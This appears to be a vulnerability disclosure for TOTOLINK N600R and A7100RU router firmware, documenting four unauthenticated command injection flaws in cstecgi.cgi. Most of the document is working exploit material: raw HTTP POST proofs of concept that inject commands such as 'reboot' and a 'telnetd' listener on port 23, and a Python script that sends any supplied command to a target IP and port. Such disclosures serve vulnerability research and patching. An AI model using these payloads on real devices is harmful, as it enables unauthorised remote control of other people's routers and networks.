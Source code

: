 # TOTOlink N600R Comand Injection

#### Venda

ToTolink N600R http://totolink.net/home/menu/detail/menu_listtpl/download/id/160/ids/36.html

link :http://totolink.net/data/upload/20200728/5fa781d2e6a17e1ed1cbf6f169810809.zip

Firmware: TOTOLINK_C8160R-1C_N600R_IP04291_8196D_SPI_4M32M_V4.3.0cu.7570_B20200620_ALL.web

ToTolink 7100RU:

Firmware_link: http://totolink.net/home/menu/detail/menu_listtpl/download/id/185/ids/36.html

Firmware: TOTOLINK_C8540R-1C_A7100RU_IP04365_MT7621AMT7615Ex2_SPI_16M128M_V7.4cu.2313_B20191024_ALL.web

#### Describe

​	N600R设备存在命令执行漏洞，攻击者可以利用此漏洞获取服务器权限

​	A command execution vulnerability exists in the n600r device, which allows an attacker to gain server privileges

### Vulnerability1

#### Describe

​	N600R设备存在命令执行漏洞，攻击者可以利用此漏洞获取服务器权限

​	A command execution vulnerability exists in the n600r device, which allows an attacker to gain server privileges

#### Detail

​	Received the environment variable QUERY_STRING in the cstecgi.cgi binary file, which is the URL to visit

<img src="./img/image-20211111143526075.png" alt="image-20211111143526075" style="zoom:50%;" />

​	Later, it will be judged whether there is exportOvpn, and it is found that it can cause command injection by constructing a url request

<img src="./img/image-20211111142430082.png" alt="image-20211111142430082" style="zoom:50%;" />

#### POC

```
POST /cgi-bin/cstecgi.cgi?exportOvpn=&type=user&comand=;touch${IFS}1.txt;&filetype=gz HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:93.0) Gecko/20100101 Firefox/93.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

aaaaa
```

#### EXP

```
import sys
import requests
import json
command=sys.argv[1]
try:
	ip=sys.argv[1]
	port=sys.argv[2]
	command=sys.argv[3]
except:
	print "nonono! cant't do this"
	print "please use python exp.py [ip] [port] [command]"
	exit()
url="http://%s:%s/cgi-bin/cstecgi.cgi?exportOvpn=&type=user&comand=;%s;&filetype=gz"%(ip,port,command)


headers={
	"User-Agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0",
	"Accept-Language":"en-US,en;q=0.5",
	"Accept-Encoding":"gzip, deflate",
	"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
	"X-Requested-With":"XMLHttpRequest",
	"Origin":"http://%s:%s"%(ip,port),
}


requests.post(url,headers=headers)
```



### Vulnerability2

#### Detail

​	漏洞存在于cstecgi.cgi文件，在测试ping的函数中可以传入json数据造成未认证的任意命令执行

​	It exists in the cstecgi.cgi file. In the function of testing Ping, JSON data can be passed in, resulting in unconditional arbitrary command execution

<img src="./img/image-20211111122344967.png" alt="image-20211111122344967" style="zoom:50%;" />

#### POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0
Origin: http://192.168.0.1
Accept-Language: en-US,en;q=0.5
X-Requested-With: XMLHttpRequest
Referer: http://192.168.0.1/adm/diagnosis.asp?timestamp=1636595925423
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 95

{"topicurl": "setting/setDiagnosisCfg", "actionFlag": "1", "ipDoamin": "www.baidu.com\rreboot"}
```



### Vulnerability3

#### Detail

​	漏洞存在于cstecgi.cgi文件，在更改语言处存在命令注入漏洞，可导致未认证的命令执行

​	A command injection vulnerability exists in the cstecgi.cgi file where the language is changed

<img src="./img/image-20211111141004575.png" alt="image-20211111141004575" style="zoom:50%;" />

#### POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 79
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/title.asp

{"topicurl":"setting/setLanguageCfg","langType":"cn;telnetd${IFS}-p${IFS}23;"}	
```



### Vulnerability4

#### Detail

​	漏洞存在于cstecgi.cgi文件，在获取系统时间处存在命令注入，导致未认证的命令执行

<img src="./img/image-20211111141412938.png" alt="image-20211111141412938" style="zoom:50%;" />

#### POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 83
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/adm/ntp.asp?timestamp=1636598045521
Cookie: SESSION_ID=2:1609945786:2

{"topicurl":"setting/NTPSyncWithHost","hostTime":"2021-11-11 10:34:09'\nreboot\n'"}
```

#### 
